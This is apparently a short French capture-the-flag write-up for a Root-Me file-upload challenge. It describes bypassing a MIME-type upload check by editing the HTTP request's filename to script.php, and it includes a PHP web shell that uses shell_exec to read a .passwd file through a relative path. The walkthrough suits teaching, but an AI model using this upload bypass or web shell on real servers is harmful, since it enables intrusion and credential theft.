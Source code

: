 Le challenge : https://www.root-me.org/fr/Challenges/Web-Serveur/File-upload-Type-MIME


Une autre faille dans l'upload ^^ mais qui requiert un peu de http ! 

Cette fois on peut envoyer le même fichier 

Mais cette fois via http on modifie la requete pour envoyer le php sans le .png 

ON ouvre notre image et hop !

Ou simplement on écrit dans le post 

notre script et en renseignant le file name

‘‘‘
filename="script.php"


<?php //exp.php.png 
$content = shell_exec('cat ../../../.passwd'); 
echo "<pre>$content</pre>"; 
?>
‘‘‘